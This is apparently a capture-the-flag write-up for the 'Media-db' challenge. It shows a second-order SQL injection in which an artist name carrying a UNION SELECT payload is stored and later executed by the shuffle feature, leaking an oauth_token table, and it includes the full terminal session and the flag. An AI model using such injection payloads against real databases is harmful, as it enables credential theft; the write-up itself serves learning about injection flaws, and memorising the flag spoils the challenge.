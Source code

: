 # Media-db

At first, the application seems safe. It correctly removes quotes from the insert parameters and apostrophes from both select queries.
I also found out that SQLite 3 doesn't support backslash escaping, so we can't solve it this way. However the application allows us to shuffle artist.
It chooses random artist from database and then selects all his songs. And that's what we need. We can without any problems insert artist with apostrophes in his name to database.
This name will be later used in SELECT query which uses apostrophes to mark string. If we set artist name to `'and 1=2 union select 1,oauth_token from oauth_tokens;--`, this should execute union select query and return oauth_token instead of song name.
```
=== Media DB ===
1) add song
2) play artist
3) play song
4) shuffle artist
5) exit
> 1
artist name?
'and'1'='2' union select 1,oauth_token from oauth_tokens;--
song name?
any
1) add song
2) play artist
3) play song
4) shuffle artist
5) exit
> 4
choosing songs from random artist: 'and'1'='2' union select 1,oauth_token from oauth_tokens;--

== new playlist ==
1: "CTF{fridge_cast_oauth_token_cahn4Quo}
" by "1"

1) add song
2) play artist
3) play song
4) shuffle artist
5) exit
> 5
bye
```

Flag: `CTF{fridge_cast_oauth_token_cahn4Quo}`